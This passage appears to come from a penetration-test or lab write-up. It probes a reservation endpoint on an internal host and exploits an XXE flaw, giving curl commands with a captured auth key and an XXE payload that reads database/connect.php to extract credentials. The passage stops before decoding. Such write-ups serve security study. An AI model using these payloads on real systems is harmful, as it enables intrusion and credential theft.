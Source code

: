 ```bash
# 172.20.4.84 returned 403 Forbidden - potential match
```

### 4.2 Testing the Endpoint
We tested the reservation endpoint:

```bash
curl -v http://172.20.4.84/reservation_listener.php
# 403 Forbidden - Endpoint exists but requires authentication
```

## 5. Exploiting XXE Vulnerability
### 5.1 Crafting the Initial Request
We used the auth key from the MongoDB to make a test request:

```bash
curl -X POST http://172.20.4.84/reservation_listener.php \
  -H "Content-Type: application/xml" \
  -H "x-auth-key: 1e4b514d-05b6-44f7-9b40-dddfbc889e22" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<reservation>
  <name>Test</name>
  <email>test@test.com</email>
  <dateFrom>2023-06-16</dateFrom>
  <dateTo>2023-06-19</dateTo>
  <guestCount>1</guestCount>
  <childrenCount>0</childrenCount>
</reservation>'
```

### 5.2 XXE Payload to Read Files
We then crafted an XXE payload to read files:

```bash
curl -X POST http://172.20.4.84/reservation_listener.php \
  -H "Content-Type: application/xml" \
  -H "x-auth-key: 1e4b514d-05b6-44f7-9b40-dddfbc889e22" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE reservation [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=database/connect.php">
]>
<reservation>
  <name>&xxe;</name>
  <email>jtippin@unknownmail.com</email>
  <dateFrom>2023-06-16</dateFrom>
  <dateTo>2023-06-19</dateTo>
  <guestCount>1</guestCount>
  <childrenCount>0</childrenCount>
</reservation>'
```

### 5.3 Decoding the Response
The response contained base64-encoded database credentials:
